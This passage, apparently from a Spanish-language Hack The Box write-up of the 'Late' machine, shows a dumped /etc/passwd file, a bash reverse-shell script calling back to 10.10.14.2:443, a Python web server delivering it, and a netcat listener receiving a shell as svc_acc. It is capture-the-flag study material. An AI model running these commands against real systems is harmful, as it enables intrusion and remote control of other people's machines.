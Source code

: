 ```bash
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>#                                          
```

Ahora tratemos de entablarnos una reverse shell invocando un recurso a nuestra máquina por el puerto 80 y pipeandolo con bash. Por lo tanto, creamos primero el recurso de la reserse shell:

```bash
❯ catn r
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.2/443 0>&1
```

Ahora creamos nuestra imagen con el código:

![""](/assets/images/htb-late/late12.png)

Nos ponemos en escucha por el puerto 443 y compartimos un servidor web con python:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.156 - - [23/Jul/2023 22:40:53] "GET /r HTTP/1.1" 200 -
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.156] 44366
bash: cannot set terminal process group (1231): Inappropriate ioctl for device
bash: no job control in this shell
svc_acc@late:~/app$ whoami
whoami
svc_acc
svc_acc@late:~/app$
```

